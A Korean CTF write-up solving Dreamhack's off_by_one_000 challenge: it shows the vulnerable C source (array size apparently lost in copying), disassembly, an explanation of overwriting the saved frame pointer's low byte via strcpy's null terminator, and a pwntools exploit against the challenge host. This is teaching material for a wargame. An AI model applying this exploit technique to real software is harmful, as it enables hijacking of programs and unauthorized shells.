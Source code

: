 ```yaml
---
layout: post
title: Dreamhack | Off By One_000
subtitle: Dreamhack-Pwnable off_by_one_000
categories: Pwnable
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/208597684-da0822b7-1f2a-4ac1-8be0-68d0be46981f.png" width = 550>
</p>

**Off-by-one 취약점**은 경계 검사에서 하나의 오차가 있을 때 발생하는 취약점입니다. 이는 버퍼의 경계 계산 혹은 반복문의 횟수 계산 시 `<` 대신 `<=`을 쓰거나, 0부터 시작하는 인덱스를 고려하지 못할 때 발생합니다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char cp_name[256];

void get_shell()
{
    system("/bin/sh");
}

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int cpy()
{
    char real_name[];
    strcpy(real_name, cp_name);
    return 0;
}

int main()
{
    initialize();
    printf("Name: ");
    read(0, cp_name, sizeof(cp_name));

    cpy();

    printf("Name: %s", cp_name);

    return 0;
}

`get_shell()` 함수가 포함되어 있기에 RET를 이 함수로 덮으면 될 것으로 예상이 된다.

```C
read(0, cp_name, sizeof(cp_name));
```

```
0x08048685 <+21>:    push   0x100
0x0804868a <+26>:    push   0x804a060
0x0804868f <+31>:    push   0x0
0x08048691 <+33>:    call   0x8048430 <read@plt>
```

`cp_name`는 256byte로 해당 전역변수에 입력 값을 할당하고 있다.

`cpy`함수를 보면 아래처럼 나오게 된다.

```armasm
0x0804864c <+0>:     push   ebp
0x0804864d <+1>:     mov    ebp,esp
0x0804864f <+3>:     sub    esp,0x100
0x08048655 <+9>:     push   0x804a060 // <-- cpname
0x0804865a <+14>:    lea    eax,[ebp-0x100]
0x08048660 <+20>:    push   eax
0x08048661 <+21>:    call   0x8048470 <strcpy@plt>
0x08048666 <+26>:    add    esp,0x8
0x08048669 <+29>:    mov    eax,0x0
0x0804866e <+34>:    leave
0x0804866f <+35>:    ret
```

정해진 256byte를 입력받기에 RET까지의 Over write는 불가능할 것으로 보인다. 하지만, `read()`함수는 마지막에 **\n**를 포함시켜서 저장하고, cpy()의 `strcpy()`는 `\n`직전까지의 값을 복사하는 것이 아닌  끝나는 **NULL 문자(\x00)**를 포함하여 string2를 string1에서 지정한 위치로 복사하여 모든 값을 넣기에 256byte의 값이 아닌 257byte의 값을 버퍼에 넣게 된다.

취약해보이는 cpy의 버퍼를 보게 되면 ebp와 esp는 256byte 차이이고, 만약 1byte가 넘어가게 되면 SFP의 1byte를 overwrite하게 된다.

* **cpy** 메모리

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/208592228-851f59c5-82fd-4833-b738-6d1d244332eb.png" width = 420>
</p>

**RED** 박스는 `cpy`의 SFP가 되고, **YELLOW** 박스는 `cpy`의 RET가 된다.

* cpy return 이후 **main** 메모리

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/208594072-0e319389-bebb-4fd7-9dbe-244fdc5c9142.png" width = 420>
</p>

`eip`의 값을 보면 cpy 메모리에서 노란색 RET의 값이고, 이것은 cpy 메모리에서 빨간색 SFP가 가리키던 값이 된다.

**cpy SFP 메모리 주소 = cpy RET 메모리 값 = return 이후 main의 eip**

main RET, cpy RET의 값을 BOF로 변경할 수 없으므로, strcpy의 **off by one** 취약점을 이용해 cpy SFP를 변경하면 된다.

`strcpy`시 마지막 널 바이트가 포함되므로 cpy SFP는 **0xff9a0b88**가 아닌 **0xff9a0b00**이 된다.

이 값은 strcpy에 포함되는 범위이기에 get_shell를 256byte만큼 도배하면 된다.

```python
from pwn import *

p = remote('host3.dreamhack.games', 20769)
e = ELF('./off_by_one_000')

get_shell = e.symbols['get_shell']
payload = b''

for i in range(64):
    payload += p32(get_shell)
p.send(payload)
p.interactive()
```
